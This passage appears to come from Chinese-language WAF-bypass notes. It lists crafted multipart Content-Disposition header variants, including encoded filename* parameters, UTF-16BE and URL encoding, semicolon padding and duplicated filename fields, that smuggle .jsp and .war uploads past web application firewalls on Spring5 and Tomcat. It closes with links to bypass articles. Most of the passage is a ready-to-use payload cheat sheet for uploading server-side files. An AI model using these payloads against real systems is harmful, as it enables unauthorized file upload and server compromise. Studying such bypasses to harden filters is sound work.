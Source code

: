 ![img](../../../images/10.png)

```http
Content-Disposition: form-data*;;;;;;;;;;name*="UTF-16BE'Y4tacker'%00d%00e%00p%00l%00o%00y%00W%00a%00r";;;;;;;;filename*="UTF-16BE'Y4tacker'%00%22%00y%00%5C%004%00.%00%5C%00w%00%5C%00a%00r%00K"

# Spring5支持的编码UTF-8/ISO-8859-1/US_ASCII
filename*=utf8'das'1.jsp
filename*=utf8"das"1.jsp
filename*=utf8"das"1.jsp;sd=1
filename*="utf8'das'1.jsp"
filename*="utf8'das'1.jsp";;;;asdsad;
# 再加url编码
filename*=utf8"das"1.js%70;sd=1

filename=1.jsp;.txt;
filename="1.txt".jsp;txt;

# 多个filename组合绕过
filename="1.txt";filename*="UTF-8"'sad'%32%2e%6a%73%70 #%32%2e%6a%73%70→2.jsp
z="filename="1.jsp"";filename="1.txt"
z="filename=1.jsp;";filename="1.txt"
```



# Druid SQL

https://www.cnblogs.com/HighnessDragonfly/p/14821624.html

https://www.modb.pro/db/587040



# 参考文章

https://xz.aliyun.com/t/12684

[我的WafBypass之道（SQL注入篇） - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/368)

[文件上传绕过思路总结 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10515)

[Bypass WAF Cookbook - MayIKissYou (wooyun.js.org)](https://wooyun.js.org/drops/Bypass WAF Cookbook.html)

[WAF是如何被绕过的？-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/203880)

[玄武盾的几种绕过姿势 - 先知社区](https://xz.aliyun.com/t/11607#toc-1)

[Java文件上传大杀器-绕waf(针对commons-fileupload组件) | Y4tacker's Blog](https://y4tacker.github.io/2022/02/25/year/2022/2/Java文件上传大杀器-绕waf(针对commons-fileupload组件)/)

[探寻Tomcat文件上传流量层面绕waf新姿势 | Y4tacker's Blog](https://y4tacker.github.io/2022/06/19/year/2022/6/探寻Tomcat文件上传流量层面绕waf新姿势/#Spring5)

[探寻Java文件上传流量层面waf绕过姿势系列二 | Y4tacker's Blog](https://y4tacker.github.io/2022/06/21/year/2022/6/探寻Java文件上传流量层面waf绕过姿势系列二/#灵活的parseQuotedToken)